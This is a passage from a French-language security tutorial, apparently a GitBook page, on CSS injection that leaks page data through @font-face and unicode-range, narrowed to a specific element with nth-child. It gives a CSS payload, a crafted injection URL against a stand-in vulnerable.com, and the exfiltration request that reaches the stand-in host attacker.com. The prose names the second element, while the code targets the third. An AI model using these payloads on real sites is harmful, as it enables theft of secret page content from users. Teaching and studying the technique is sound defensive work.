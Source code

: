 <figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

L'ajout de la pseudo-class `nth-child()` va permettre de sélectionner seulement le second élément HTML ayant l'attribut class désiré :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // S'applique pour le troisième fils et ayant la Class ciblée par l'attaque
  .secret:nth-child(3) {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```
{% endcode %}

Le lien malicieux permettant l'exploitation en fonction de la valeur de l'attribut `class` ainsi que de la position de l'élément ciblé est alors le suivant :

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-par-class-via-nth-child.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}.secret:nth-child(3){font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}
